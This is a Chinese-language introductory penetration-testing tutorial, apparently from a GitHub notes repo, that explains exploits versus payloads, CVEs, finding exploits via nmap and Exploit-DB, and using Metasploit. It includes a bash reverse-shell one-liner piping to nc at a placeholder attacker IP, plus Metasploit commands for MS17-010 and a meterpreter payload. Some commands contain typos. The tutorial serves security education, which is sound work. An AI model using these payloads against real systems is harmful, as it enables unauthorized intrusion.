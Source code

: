 # 漏洞利用和有效载荷

> 在本文中，我将介绍漏洞利用和有效载荷的基础知识，以及两者的区别。在每次渗透测试中，你大概率都会需要漏洞利用并使用有效载荷。

## 漏洞利用和有效载荷简介

一些初学者对漏洞利用和有效载荷的区别感到困惑。事实上，它们在漏洞利用过程中具有两个截然不同的功能。如果没有漏洞利用，就无法传递有效载荷，如果没有有效载荷，就无法获得shell。

## 漏洞利用

漏洞利用是一段旨在利用计算机系统中漏洞的代码。由于这个定义涵盖了各种类型的系统，因此每种漏洞利用看起来都不一样。这些漏洞通常存在于现实世界的系统中，因为IT管理员经常忘记或缺乏资源来保持系统完全更新。也可能存在尚未发现的漏洞！

### 漏洞利用的类型

漏洞利用有很多种类型，例如：

- 缓冲区溢出漏洞

- SQL注入漏洞

- 跨站脚本（XSS）漏洞

- 跨站请求伪造（CSRF）漏洞

- 权限提升漏洞

- 拒绝服务（Dos）漏洞

- 钓鱼漏洞

- 0 Day漏洞

- 文件包含漏洞

- 恶意软件和木马漏洞

再次强调，目前细节并不重要，重要的是记住漏洞利用是滥用漏洞的，而漏洞可以有很多种。

### CVE

最后需要介绍的一个名词时CVE的定义。CVE（Common Vulnerabilities and Exposures，通用漏洞与暴露）是指利用已知漏洞的特定攻击或代码实例，并被分配了一个CVE标识符。

这个CVE由中央机构（如 MITRE）在研究人员或其他参与者识别出漏洞后分配。一旦漏洞被发现并存在漏洞利用可能，负责的供应商或组织通常会开发并发布修复漏洞的补丁或安全更新。

一旦我们开始寻找漏洞利用，我们经常会遇到这些CVE。

### 寻找漏洞利用点

通常，我们可以通过以下方法来寻找漏洞利用点：

#### 1. 扫描目标网络：

使用诸如nmap类似工具扫描目标网络，获取其主机和服务的详细信息，包括版本号。

#### 2. 搜索漏洞利用：

通过，以下几种方式查找与扫描结果匹配的漏洞利用：

- **谷歌搜索：** 使用一些关键词进行搜索，例如目标系统和服务版本号+漏洞利用（exploit）。

- **Metasploit：** 使用`search`命令在Metasploit框架内搜索漏洞利用模块。

- **Exploit-DB网站：** [https://www.exploit-db.com](https://www.exploit-db.com) 该网站提供大量漏洞利用的详细信息，其中大部分都包含对应的CVE编号。

#### 3. 漏洞利用脚本

找到漏洞利用点后，你可以选择自己编写脚本利用漏洞，也可以从Exploit-DB等网站获取现成的脚本。

一个著名的漏洞利用案例是EternalBlue，它利用了SMB服务器中的漏洞：[https://www.exploit-db.com/exploits/42315](https://www.exploit-db.com/exploits/42315) 。这些漏洞利用脚本通常使用Python等语言编写，在使用前可能需要修改脚本中的端口号或IP地址。幸运的是，这些漏洞利用脚本通常都附有详细的文档说明。

另外，除了使用独立的漏洞利用脚本外，你还可以使用Metasploit框架来运行漏洞利用并植入有效载荷到目标系统。稍后我会介绍Metasploit的具体用法，现在让我们了解以下什么是有效载荷。

## 有效载荷

虽然漏洞利用是利用系统中的漏洞，但有效载荷是在成功利用系统后发送的一段代码。一个基本的有效载荷示例是建立一个反向shell到目标系统的代码。简单来说，它可能看起来像这样：

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <Attacker ip> <Attacker listener port> > /tmp/
```

这要求你在你的系统上运行一个监听器。一个基本的监听器可以通过运行以下命令建立：

```bash
nv -lvnp <port>
```

一旦有效载荷被触发，你将获得一个反向shell。

重要的是要理解，我们用来获取系统shell的有效载荷很大程度上取决于目标系统上的操作系统、shell解释器语言，甚至编程语言。

虽然有些有效载荷是一行代码并手动部署，如上所示，但有些是使用自动化攻击框架生成的，例如Metasploit。

### Metasploit 自动生成有效载荷

本文不会深入讨论Metasploit的所有细节，但对于初学者来说，它绝对是最简单地使用漏洞利用和有效载荷的方法。一般步骤如下：

你可以通过`search` 命令来搜索漏洞利用，例如：

```bash
search ms17-010
```

![](https://github.com/owl234/Awesome-SRC-experience/blob/main/img/0_uxAtWpmh7aTi3gF7.webp)

然后，使用`use <exploit id>` 选择漏洞利用。然后设置列出选项（`show option`）时所需的选项。

常用的参数有：

- **RHOSTS：** “远程主机”，目标系统的IP地址。可以设置单个IP地址或网络范围。你还可以使用一个文件，其中列出了目标，每个目标一行，使用`file:/path/of/the/target_file.txt` 。

- **RPORT：** “远程端口”，目标系统上运行漏洞应用程序的端口。

- **LHOST：** “本地主机”，攻击机器（你的攻击盒子或Kali Linux）的IP地址。

- LPORT：“本地端口”，你将用于反向shell连接回的端口。这是攻击机器上的一个端口。

你可以通过运行`set <参数名称> <值>` 来设置这些参数。

![](https://github.com/owl234/Awesome-SRC-experience/blob/main/img/0_PI4oKf2qg8i_NmQf.webp)

一旦你设置了漏洞利用选项，就可以选择要使用的有效载荷。Metasploit中有两种不同类型的有效载荷：

- **Singles：** 自包含的有效载荷（添加用户、启动notepad.exe等）,不需要下载额外的组件即可运行。

- **Staged：** 分阶段的有效载荷首先在目标系统上上传一个启动器，然后下载其余的有效载荷（阶段）。这提供了一些优势，因为有效载荷的初始大小相对较小，使得有效载荷不太可能被发现。

使用`show payloads` 命令列出所选漏洞的利用模块可用的有效载荷。你可能想知道有效载荷是分阶段的还是单一的。如果我们查看：`windows/shell/reverse_tcp` 和 `windows/shell_reverse_tcp`，带有正斜杠的是“分阶段”有效载荷，带下划线的是“单一”有效载荷。

一旦你找了喜欢的有效载荷，可以使用`set payload` 命令，后跟要使用的有效载荷名称。

```bash
set payload windows/meterpreter/reverse_tcp
```

当你完成所有设置后，就可以运行了。

![](https://github.com/owl234/Awesome-SRC-experience/blob/main/img/0_JrGXTONNWSaip72w.webp)

一旦成功利用漏洞，就会创建一个会话。这是目标系统和Metasploit之间建立的通信通道。现在你可以提升你的权限了。

还有一点需要注意，你也可以使用Metasploit框架中的MSFvenom创建自己的有效载荷。如果我们没有与目标的直接网络连接，并且需要通过电子邮件等方式传递有效载荷，MSfvenom是一个很好的选择。MSfvenom只创建有效载荷文件，而不提供像Metasploit这样的其他漏洞利用自动化选项。

## 总结

在本文中，我们介绍了漏洞利用和有效载荷的含义。

1. **漏洞利用：** 
- 漏洞利用是一段代码或一种技术，利用计算机系统或软件应用程序中的漏洞或者弱点。

- 其主要的目的是获得未经授权的访问、控制或破坏目标系统。
2. **有效载荷：** 
- 相反，有载荷是在成功利用漏洞后攻击者传递给受损系统的恶意代码或操作。

- 有效载荷的目的可以多种多样，从窃取数据到创建后门以进行未来的访问，甚至造成系统的损坏。
3. **Metasploit：**
- Metasploit 是一个用来自动化运行漏洞利用和有效载荷并获取系统访问权限的框架。

- 虽然，Metasploit对初学者来说很棒，但是不要过于依赖它，因为学习如何在没有这个强大框架的情况下了解一切工作原理是一个更好的选择。
